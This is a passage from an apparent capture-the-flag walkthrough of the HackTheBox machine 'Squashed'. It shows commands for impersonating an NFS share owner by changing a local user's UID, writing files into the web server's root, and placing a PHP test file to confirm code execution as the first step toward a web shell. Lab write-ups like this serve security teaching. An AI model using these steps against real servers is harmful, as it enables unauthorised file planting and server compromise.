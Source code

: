     
    
    oxdf@hacky$ sudo usermod -u 2017 dummy 
    oxdf@hacky$ sudo su dummy -c bash
    bash: cannot set terminal process group (168647): Inappropriate ioctl for device
    bash: no job control in this shell
    dummy@hacky:/media/sf_CTFs/hackthebox/squashed-10.10.11.191$ 
    

Now I can read the share just fine:

    
    
    dummy@hacky:/$ ls -l /mnt
    total 44
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 css
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 images
    -rw-r----- 1 dummy www-data 32532 Nov 11 20:40 index.html
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 js
    

### File Write Test

Now that I can access the web root, can I write files to it? It seems like I
can:

    
    
    dummy@hacky:/$ echo "Test?" > /mnt/0xdf.html
    

Loading up `http://10.10.11.191/0xdf.html` in Firefox, it returns the message:

![image-20221111154220530](https://0xdfimages.gitlab.io/img/image-20221111154220530.png)

### PHP WebShell

#### POC

Even though the site isn’t running any obvious PHP, it’s worth taking a shot
and seeing it the webserver will execute PHP. I’ll write a small PHP file that
just echos a message back:

    
    
    dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>'
    <?php
      echo "0xdf was here!";
    ?>
    dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>' > /mnt/0xdf.php
    

If I view this in Firefox and I see the entire file, that means that the
server is just returning static files. On the other hand, if it only shows
“0xdf was here!”, then the server must have executed the file as PHP, and
returned only the output of that, showing that it is running PHP.

It is running PHP:

![image-20221111154526636](https://0xdfimages.gitlab.io/img/image-20221111154526636.png)

